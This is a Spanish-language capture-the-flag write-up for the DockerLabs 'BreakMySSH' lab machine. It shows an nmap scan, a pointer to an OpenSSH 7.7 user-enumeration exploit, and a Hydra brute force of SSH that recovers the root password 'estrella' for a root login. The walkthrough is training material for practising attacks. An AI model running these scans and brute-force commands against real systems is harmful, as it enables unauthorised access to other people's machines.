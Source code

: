 ```yaml
---
icon: flag
---
```


# BreakMySSH DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip breakmyssh.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh breakmyssh.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 12:52 EST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```

Vemos que el `SSH` tiene una version `7.7` por lo que vamos a buscar si tuviera algun exploit asociado a el.

## Exploit OpenSSH 7.7

Si buscamos un poco veremos el siguiente `exploit` el cual nos deja enumerar usuarios del sistema.

URL = [Exploit OpenSSH 7.7](https://www.exploit-db.com/exploits/45233)

Pero antes de utilizar el script podremos utilizar `2` usuarios tipicos que vienen por defecto en `kali` al crear un `docker` que serian los siguiente:

> users.txt

```
root
ubuntu
```

Y ahora vamos a probar fuerza bruta:

## Escalate Privileges

### Hydra

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-03 13:09:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Vemos que obtendremos las credenciales de `root` directamente, por lo que entraremos mediante `ssh`.

```shell
ssh root@<IP>
```

Metemos como contraseña `estrella` y veremos que estamos dentro.

Info:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@4a86b8aff2d9:~# whoami
root
```

Por lo que habremos terminado ya la maquina.
